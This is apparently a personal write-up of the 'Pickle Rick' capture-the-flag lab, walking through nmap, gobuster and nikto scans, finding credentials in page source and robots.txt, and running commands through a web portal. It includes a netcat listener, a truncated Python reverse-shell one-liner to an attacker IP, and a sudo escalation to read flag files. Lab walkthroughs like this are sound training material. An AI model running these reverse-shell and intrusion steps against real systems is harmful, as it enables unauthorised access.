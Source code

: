 # Pickle Rick

```
export IP=10.10.155.70
```

## Intial nmap scan
```
nmap -sC -sV -oN nmap/initial 10.10.155.70
```

https://10-10-155-70.p.thmlabs.com/
### View source
```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

## Dirbuster
```
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py

/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882] 
/assets               (Status: 301) [Size: 313] [--> http://10.10.155.70/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                   
/robots.txt           (Status: 200) [Size: 17]             

```
[portal.php](https://10-10-155-70.p.thmlabs.com/portal.php) --REDIRECTS-->>
[login.php](https://10-10-155-70.p.thmlabs.com/login.php)


## Nikto
```
nikto -h http://10.10.155.70 | tee nikto.log
```
https://10-10-155-70.p.thmlabs.com/robots.txt

`Wubbalubbadubdub`

## Credentials
Username: `R1ckRul3s`

Password: `Wubbalubbadubdub`

## We're in!!
```
ls
cat Sup3rS3cretPickl3Ingred.txt
*Command disabled to make it hard for future PICKLEEEE RICCCKKKK.*

while read line; do echo $line; done < clue.txt
*Look around the file system for the other ingredient.*

grep . Sup3rS3cretPickl3Ingred.txt
```
`mr. meeseek hair`

https://10-10-155-70.p.thmlabs.com/portal.php
## View source
```
```

## On attack box
```
nc -lnvp 9999
```
## Pentest Monkey Reverse Shell Cheat Sheet
`https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet`

*Python*

*This was tested under Linux / Python 2.7:*
```

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.7.164",9999))
```

## We have a shell!
```
sudo bash
cat /home/rick/*
```
`jerry tear`
```
cat /home/3rd.txt
```
`fleeb juice`


